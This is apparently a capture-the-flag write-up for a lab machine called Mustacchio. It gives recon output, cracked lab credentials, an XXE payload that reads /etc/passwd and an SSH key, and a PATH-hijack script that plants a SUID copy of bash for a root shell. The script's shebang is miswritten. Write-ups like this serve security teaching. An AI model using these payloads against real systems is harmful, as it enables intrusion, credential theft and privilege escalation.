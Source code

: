 # Mustacchio
### Users
```
joe
barry
```
### Credentials
```
barry:urieljames

Port 8765
admin:bulldog19
```
## Recon
### Nmap Scan
```
Nmap scan report for 10.10.115.141
Host is up (0.076s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Web Recon
**Port 80:**
* Server: Apache 2.4.18
**Port 8765:**
* Server nginx 1.10.3
#### Fuzzing
```
/FUZZ - raft-files
 :: Method           : GET
 :: URL              : http://10.10.115.141/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-small-files.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
 __________________________________________
index.html              [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 53ms]
contact.html            [Status: 200, Size: 1450, Words: 68, Lines: 52, Duration: 54ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 56ms]
robots.txt              [Status: 200, Size: 28, Words: 3, Lines: 3, Duration: 326ms]
about.html              [Status: 200, Size: 3152, Words: 331, Lines: 65, Duration: 54ms]
blog.html               [Status: 200, Size: 3172, Words: 274, Lines: 84, Duration: 53ms]
gallery.html            [Status: 200, Size: 1950, Words: 69, Lines: 91, Duration: 142ms]
wp-forum.phps           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 53ms]
.htaccess.bak           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 54ms]
.htuser                 [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 54ms]


/FUZZ/ - raft-dirs
 :: Method           : GET
 :: URL              : http://10.10.115.141/FUZZ/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

images                  [Status: 200, Size: 6168, Words: 308, Lines: 42, Duration: 55ms]
fonts                   [Status: 200, Size: 1144, Words: 76, Lines: 18, Duration: 56ms]
icons                   [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 57ms]
custom                  [Status: 200, Size: 1116, Words: 76, Lines: 18, Duration: 54ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 53ms]
```
## Foothold / Privilege Escalation
### Initial Foothold
Using ffuf I found a /custom directory under the web root. Inside a file named users.bak
seemed interesting. It was a sqlite3 type file so when viewing it I found an admin username
and his password hash. Using john I was able to crack the hash and login on port 8765.
Inside the admin panel we could leave a comment and viewing the request in burp it was an
XML type of data being given to the server so I tested for XXE and was successful.
Using:
```
xml=<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```
payload and then URL encoding it I was able to read the /etc/password, and in the response
body I found a comment reminding the user barry that he can use his ssh key to log in so 
I used the XXE vulnerability to read id_rsa of the user barry and was able to crack it and ssh in the machine as the user barry.
### Privilege Escalation
To elevate my privileges I ran a typical check for linux boxes and when checking the SUID
binaries I found an interesting binary; **/home/joe/live_log**, which when ran would give me
last log entries for the web server. Inspecting it with strings on my machine I found
the exact command used "tail" but without a specified path. So testing if I could
manipulate the path variable proved successful.
I made a malicious tail binary in the /dev/shm directory and then appended that directory to the BEGINNING of the path.
In the malicious binary was the payload:
```
!#/bin/bash
cp /bin/bash /tmp/bash
chmod 4777 /tmp/bash
```
And when live_log executed tail it would execute our malicious binary and copy the /bin/bash binary to the /tmp/ directory and giving it the SUID bit. 
When executed, the /tmp/bash binary with -p flag for elevated privileges it gives us a root shell.
## Notes
* When using the PATH variable manipulation exploit, the directory where the malicious binary is needs to be on the BEGINNING of the PATH variable.